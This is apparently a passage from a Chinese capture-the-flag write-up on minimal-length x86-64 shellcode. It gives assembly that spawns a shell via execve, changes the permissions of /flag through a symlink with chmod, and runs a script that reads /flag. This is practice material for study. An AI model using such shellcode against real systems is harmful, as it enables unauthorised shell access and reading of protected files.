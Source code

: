 ![联想截图_20240808181141.png](https://i-blog.csdnimg.cn/blog_migrate/725f9112811c3edeb7f9634d3163f331.png)
程序寄存器状态图：
![联想截图_20240808181057.png](https://i-blog.csdnimg.cn/blog_migrate/53a9750e003ba0f4349f79713d5e6975.png)
getshell 结果图
![联想截图_20240808181129.png](https://i-blog.csdnimg.cn/blog_migrate/0c7dcc880bdfdfe8318193633c93fc57.png)
### bypass
```python
sh = asm(''' 
push 0x68732f
mov rdi,rsp
xor rsi,rsi
cdq
mov al,0x3b             # 根据程序状态已达最短长度，但是有限制：execve(/bin/sh,0,0)必须能被execve(/sh,0,0)代替
syscall
''')      # 如果不能使用execve(/sh,0,0),那么由于/bin/sh超过了4字节，不能使用pop代替mov，而lea生成的则会更长
#          因此其他方法都只会更长
```
## chmod 软链接修改/flag 权限
> 建立软连接 /flag---> /home/hacker/Desktop/f：
> ln -s /flag  /home/hacker/Desktop/f
>注意由于 chmod 文件名参数是 "f"，因此**脚本需要在与 f 文件相同的目录下执行**
```python
sh = asm('''           # chmod('f',0x4)s
push 0x66
mov rdi,rsp
push 4
pop rsi
mov al,0x5a           # 这里可以使用al寄存器，rax高位全零
syscall
''')
# 该shellcode达到最短：len = 12bytes
```
## 利用 execve 执行脚本
> 将 cat /flag 写入脚本，编写 shellcode 利用 execve 执行脚本，获得 flag

```
#!/bin/bash -p
id
cat /flag
```
```
/* execve(path='c', argv=0, envp=0) */
    /* push b'c\x00' */
    push 0x63
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```
```
    push 0x63
    mov rdi, rsp
    xor esi, esi
    cdq
    mov al,0x3b
    syscall
```